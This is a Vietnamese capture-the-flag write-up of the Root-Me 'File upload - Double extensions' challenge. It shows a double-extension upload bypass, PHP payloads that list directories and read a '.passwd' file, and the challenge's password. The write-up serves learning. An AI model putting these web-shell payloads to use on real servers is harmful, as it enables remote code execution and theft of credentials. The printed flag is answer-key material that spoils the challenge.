








# Challenge: File upload - Double extensions
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions

- Thử thách như một trình xem ảnh

- Dạo quanh trang web thì có một nơi upload file, những file upload phải có phần mở rộng là png, jpg `only .gif, .jpeg and .png are accepted`

- Thử thách có đề cập tới `Double extensions` do vậy ta thử tạo một file php, nhưng lại thêm một phần mở rộng khác là jpg. Tạo file với tên `a.php.jpg` có nội dung.
> `<?php echo phpinfo(); ?>`

- Khi đó ta thấy đã thực thi được file

- Liệt kê các file hiện tại với payload
> `<?php $scan=scandir("."); foreach($scan as $file){echo "$file\n";} ?>  `
#ls galerie/upload/e67ff4a2f42984fe8bf237d3c876fddf

> `<?php $scan=scandir("../"); foreach($scan as $file){echo "$file\n";} ?>  `
#ls galerie/upload/

> `<?php $scan=scandir("../../"); foreach($scan as $file){echo "$file\n";} ?>  `
#ls galerie/

> `<?php $scan=scandir("../../../"); foreach($scan as $file){echo "$file\n";} ?>  `
#ls /

- Vậy tệp tin .passwd nằm tại `../../../.passwd` ta tiến hành đọc file này với payload
> `<?php $data = file_get_contents("../../../.passwd"); echo $data; ?>`

## Kết quả password là `Gg9LRz-hWSxqqUKd77-_q-6G8`